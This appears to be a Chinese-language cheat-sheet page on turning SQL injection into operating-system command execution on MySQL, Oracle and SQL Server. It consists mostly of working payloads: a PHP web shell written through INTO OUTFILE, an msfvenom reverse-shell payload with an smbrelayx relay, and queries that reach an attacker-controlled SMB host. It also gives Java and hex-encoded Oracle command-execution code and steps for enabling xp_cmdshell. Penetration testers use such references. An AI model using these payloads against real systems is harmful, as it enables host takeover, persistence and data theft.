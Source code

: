 ###  执行系统命令 {docsify-ignore-all}

执行系统命令是SQL注入的主要目标之一，这有助于完全控制主机操作系统。这可能通过直接执行命令，修改现有数据以在网页上放置shell或者利用数据库中的隐藏功能来实现。

#### MySQL



| 描述   |      语句     |  
|----------|:-------------:|
| 命令执行（PHP）  |      SELECT "<? echo passthru($_GET['cmd']); ?>" INTO OUTFILE '/var/www/shell.php'    |  
| 使用MySQL CLI Access执行命令   |      [https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/](https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/)     |  



SMB中继外壳

Requires

* [Metasploit](https://www.metasploit.com/) 
* [smbrelayx](https://github.com/CoreSecurity/impacket)



##### 生成反向shell有效负载

```code
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR.IP.GOES.HERE LPORT=443  -f exe > reverse_shell.exe
```

#####  生成一个侦听器来传递反向shell

```code
smbrelayx.py -h VICTIM.IP.GOES.HERE -e ./reverse_shell.exe

```

##### 执行下面的任何一个MySQL查询来调用监听器

```code
select load_file('\\\\YOUR.IP.GOES.HERE\\aa');
select load_file(0x5c5c5c5c3139322e3136382e302e3130315c5c6161);
select 'netspi' into dumpfile '\\\\YOUR.IP.GOES.HERE\\aa';
select 'netspi' into outfile '\\\\YOUR.IP.GOES.HERE\\aa';
load data infile '\\\\YOUR.IP.GOES.HERE\\aa' into table database.table_name;

```

有关更多信息，请参见[此处](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)

#### Oracle

如果安装了[Java](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)，可用于执行命令

| 描述   |      语句     |  
|----------|:-------------:|
| 创建Java类   |      /\* create Java class \*/  <br /> `BEGIN EXECUTE IMMEDIATE 'create or replace and compile java source named "PwnUtil" as import java.io.*; public class PwnUtil{ public static String runCmd(String args){ try{ BufferedReader myReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream()));String stemp, str = "";while ((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}} public static String readFile(String filename){ try{ BufferedReader myReader = new BufferedReader(new FileReader(filename));String stemp, str = "";while((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}}};'; END; ` <br />/<br />  `BEGIN  EXECUTE IMMEDIATE 'create or replace function PwnUtilFunc(p_cmd in varchar2) return varchar2 as language java name ''PwnUtil.runCmd(java.lang.String) return String'';'; END;  ` <br />/ <br />/\* run OS command \*/ <br /> ` SELECT PwnUtilFunc('ping -c 4 localhost') FROM dual;`     |  
| 创建Java类（十六进制编码）   |      /\* create Java class \*/<br />SELECT TO\_CHAR(dbms\_xmlquery.getxml('declare PRAGMA AUTONOMOUS\_TRANSACTION; <br />begin execute immediate utl\_raw.cast\_to\_varchar2(hextoraw(''637265617465206f72207265706c61636520616e6420636f6d70<br />696c65206a61766120736f75726365206e616d6564202270776e7574696c2220617320696d706f7274206a6176612e696f2e2a3b7075626c696<br />320636c6173732070776e7574696c7b7075626c69632073746174696320537472696e672072756e28537472696e672061726773297b7472797b42756<br />66665726564526561646572206d726561643d6e6577204275666665726564526561646572286e657720496e70757453747265616d526561646572285<br />2756e74696d652e67657452756e74696d6528292e657865632861726773292e676574496e70757453747265616d282929293b20537472696e6720737<br />4656d702c207374723d22223b207768696c6528287374656d703d6d726561642e726561644c696e6528292920213d6e756c6c29207374722b3d73746<br />56d702b225c6e223b206d726561642e636c6f736528293b2072657475726e207374723b7d636174636828457863657074696f6e2065297b726574757<br />26e20652e746f537472696e6728293b7d7d7d'')); <br />SEXECUTE IMMEDIATE utl\_raw.cast\_to\_varchar2(hextoraw(''637265617465206f72207265706c6163652066756e6374696f6e2050776<br />e5574696c46756e6328705f636d6420696e207661726368617232292072657475726e207661726368617232206173206c616e6775616765206a<br />617661206e616d65202770776e7574696c2e72756e286a6176612e6c616e672e537472696e67292072657475726e20537472696e67273b'')); end;')) results FROM dual <br />/\* run OS command \*/<br />SELECT PwnUtilFunc('ping -c 4 localhost') FROM dual;     |  
 
#### SQL Server


| 名称   |      语句     |  
|----------|:-------------:|
| xp\_cmdshell   |      \-\- Enable show advanced options <br />sp\_configure 'show advanced options', 1 <br />RECONFIGURE <br />GO  <br />\-\- Enable xp\_cmdshell <br />sp\_configure 'xp_cmdshell', 1 <br />RECONFIGURE <br />GO <br />EXEC xp\_cmdshell 'net user'     |  
| 写入注册表自动运行  |      [https://blog.netspi.com/establishing-registry-persistence-via-sql-server-powerupsql/](https://blog.netspi.com/establishing-registry-persistence-via-sql-server-powerupsql/) <br /> [https://gist.github.com/nullbind/03af8d671621a6e1cef770bace19a49e](https://gist.github.com/nullbind/03af8d671621a6e1cef770bace19a49e)  |  
| 写入文件自动运行   |      [https://blog.netspi.com/how-to-hack-database-links-in-sql-server/](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)    |  
|Agent Job  |      [https://www.optiv.com/blog/mssql-agent-jobs-for-command-execution](https://www.optiv.com/blog/mssql-agent-jobs-for-command-execution)     |  
| 存储过程中的SQL注入   |      [https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-3-sqli-and-user-impersonation/)     |  
| CLR组件 |      [https://blog.netspi.com/attacking-sql-server-clr-assemblies/](https://blog.netspi.com/attacking-sql-server-clr-assemblies/)     |  
| 自定义扩展存储过程  |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/cmd_exec.cpp](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/cmd_exec.cpp)    |  



##### TSQL

| 名称   |      语句     |  
|----------|:-------------:|
| ActiveX Javascript Agent Job   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_activex_jscript.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_activex_jscript.sql)     |  
| ActiveX VBScript Agent Job   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_activex_vbscript.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_activex_vbscript.sql)     |  
| cmdexec Agent Job   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_cmdexec.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_cmdexec.sql)     |  
| Powershell Agent Job   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_powershell.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_agentjob_powershell.sql)    |  
| 自定义命令行shell    |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_customxp.cpp](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_customxp.cpp)     |  
| OLE自动化对象   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_oleautomationobject.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_oleautomationobject.sql)     |  
| OPENROWSET   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_openrowset.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_openrowset.sql)     |  
| Python   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_pythonscript.tsql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_pythonscript.tsql)     |  
| R   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_rscript.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_rscript.sql)     |  
| xp_cmdshell proxy   |      [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_xpcmdshell_proxy.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_xpcmdshell_proxy.sql)     |  
















